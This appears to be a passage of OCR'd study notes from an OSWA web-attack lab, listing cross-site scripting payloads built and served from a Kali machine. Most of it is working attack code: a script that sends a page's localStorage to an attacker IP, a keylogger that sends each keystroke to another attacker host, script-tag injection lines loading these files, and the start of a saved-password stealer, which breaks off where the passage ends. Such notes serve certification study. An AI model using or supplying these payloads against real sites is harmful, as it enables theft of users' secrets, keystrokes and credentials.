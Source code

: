 ```bash
```
-------------------------
###### Payload 3 - `STEALING LOCAL SECRETS`
```bash
┌──(root💀gobots)-[02Aug2024 13:15:17]-[/home/kali/SUT/OSWA/xss]
└─# vim xss3.js   

┌──(root💀gobots)-[02Aug2024 13:15:49]-[/home/kali/SUT/OSWA/xss]
└─# cat xss3.js   
let data = JSON.stringify(localStorage)

let encodedData = encodeURIComponent(data)

fetch("http://192.168.45.223/exfil?data=" + encodedData)

┌──(root💀gobots)-[02Aug2024 13:15:57]-[/home/kali/SUT/OSWA/xss]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```
Payload to test against own kali machine 1st
```bash
<script src="http://192.168.45.223:80/xss3.js"></script>
```
------------
###### Payload 4 - `KEYLOGGING`
```bash
┌──(root💀gobots)-[05Aug2024 19:14:45]-[/home/kali/SUT/OSWA/xss]
└─# vim xss4.js

# Make sure to change the IP address
┌──(root💀gobots)-[05Aug2024 19:15:09]-[/home/kali/SUT/OSWA/xss]
└─# cat xss4.js 
function logKey(event){
        fetch("http://192.168.45.236/k?key=" + event.key)
}

document.addEventListener('keydown', logKey);

┌──(root💀gobots)-[05Aug2024 19:15:50]-[/home/kali/SUT/OSWA/xss]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```
In the search option on the website drop the payload and hit search
payload
```bash
<script src="http://192.168.45.236:80/xss4.js"></script>
```
---------
###### Payload 5 - `STEALING SAVED PASSWORDS`
```bASH
┌──(root💀gobots)-[05Aug2024 20:48:35]-[/home/kali/SUT/OSWA/xss]
└─# vim xss5.js

┌──(root💀gobots)-[05Aug2024 20:48:46]-[/home/kali/SUT/OSWA/xss]
└─# cat xss5.js 
let body = document.getElementsByTagName("body")[0];

var u = document.createElement("input");
u.type = "text";
u.style.position = "fixed";
//u.style.opacity = "0";

```